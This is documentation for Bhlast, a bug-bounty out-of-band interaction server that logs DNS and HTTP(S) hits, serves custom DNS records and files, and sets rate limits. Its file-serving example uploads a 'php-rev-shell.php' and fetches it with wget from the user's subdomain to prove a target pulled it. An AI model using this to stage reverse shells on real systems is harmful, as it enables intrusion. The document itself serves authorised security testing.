 ﻿# Bhlast

## Motivation

Blind attacks are somewhat difficult, since you have to have a server that will listen to interactions.

Burp collaborator is a great way to listen to interactions, but if you want your server to listen to interactions even when you are not hacking, you have to use some other site.

ProjectDiscovery published an amazing tool called [interactsh](https://github.com/projectdiscovery/interactsh), which allows you to self-host it to leverage some features.

Since this platform is meant to eliminate as much of the boring work that you need to do in order to be successful, and to work on the stuff while you are not hacking, having this functionality is a **must**.

Therefore, I decided to learn from their implementation, and start building it. The new implementation is not feature complete. It only supports DNS and HTTP(s) protocols. This is good enough to get started, and the rest will be added as needed.

::alert{type="info"}
Thank you to ProjectDiscovery for open-sourcing this great tool! Bhlast implementation is heavily influenced by your work!
::

## How it works?

New server is registered behind the [bhlast.com](https://bhlast.com) domain.

In order to create your unique server, you have to have an account on the [BountyHub](https://bountyhub.org) platform.

Each server gets random subdomain unique to your account. In order to avoid having spam notifications, please do not share your
`bhlast` server publically. Every interaction with this server will be tracked, and you will get notified for no good reason.

Server is listening on following:

::list{type="primary"}

- HTTP (TCP port 80)
- HTTPS (TCP port 443)
- DNS (TCP and UDP port 53)
- Serve static files
- Get notified on interactions

::

## Default behavior

To track interactions per user, each user will get unique
subdomain. Everything associated with that subdomain, or
subdomain of that subdomain will be tracked for your account.

### HTTP

When you visit the [bhlast.com](https://bhlast.com), static page will be displayed. 
This static page is only used to point you to the documentation, and to show basic information about this server.

The `bhlast.com` supports both HTTP and HTTPS. The same
server will be used to serve custom responses (soon), and
to serve static files. As with everything, if notifications
are configured, each interaction will issue a notification.

### DNS

The DNS server is created not only to track DNS
interactions, but also to provide a configurable way
you can use to serve CUSTOM DNS records.

For example, let's say your ID is `ng3iqaju5npgoeuo`.

Each interaction with `ng3iqaju5npgoeuo.bhlast.com` will
be recorded. However, let's say you want to create a
DNS record that will serve address for localhost.

You can create a subdomain with `A` record to point to
`127.0.0.1`. Let's call that record `localhost`. Now,
when `localhost.ng3iqaju5npgoeuo.bhlast.com` is requested,
the interaction will be tracked and the `A` record will
be served, pointing to `127.0.0.1`.

## Server registration and configuration

### Registration

Once you are logged into the platform, on the right drawer, you will see tab named `Bhlast servers`. Click on it.

![Bhlast servers](/drawer-bhlast.png)

On top of the page, you will see `Register Server` button. Click on it, and you will be taken to the registration page.

## Working with your server

Your `bhlast` server can be used to:

- Track interactions
- Serve files
- Standard responses

### Tracking interactions

Interactions are shown for each request that is associated with your subdomain. The `[id]` portion of your subdomain is
the identifier used to associate interaction with it. In other words, let's say your subdomain is `lwwhkmc4n2ziyu3d`. Then
all traffic directed to `lwwhkmc4n2ziyu3d.bhlast.com` and `*.lwwhkmc4n2ziyu3d.bhlast.com` is registered associated with your
server.

![Bhlast logs](/bhlast-log.png)

### Serving files

Your server can also be used as a file server. Think of it as `python3 -m http.server 80`, but listening both on port 80 and 443.

In order to serve file, route `/-/` is exposed for that purpose.

As an example, let's say your server is located at `lwwhkmc4n2ziyu3d.bhlast.com`. You uploaded a `php-rev-shell.php`.
You can retrieve it by running `wget https://o66322a9ufqn02o0.bhlast.com/-/php-rev-shell.php`. The important thing to note
is that the interaction on your file server is also tracked, so you can later prove that server pulled the file.

### Standard responses

By default, subdomain reversed will be served as a string. However, there are special cases to change format
of responses.

| Path                     | Response format                                                        |
| ------------------------ | ---------------------------------------------------------------------- |
| Path ending with `.xml`  | The result will be in format `<data>[reverse subdomain string]</data>` |
| Path ending with `.json` | The result will be in format `{"data": "[reverse subdomain string]"}`  |
| `/robots.txt`            | `User-agent: *\nDisallow: / # [reverse subdomain string] `             |

## Rate limits

To avoid misuse or malicious use of bhlast servers, the rate limiter is implemented.

| Server type | Global rate limit / s | Per IP rate limit / s |
| ----------- | --------------------- | --------------------- |
| DNS         | 5000                  | 10                    |
| HTTP(s)     | 5000                  | 20                    |

Furthermore, if the number of questions in a DNS query exceeds 8, the DNS request will be rejected completely.
This should reduce DNS amplification attacks.
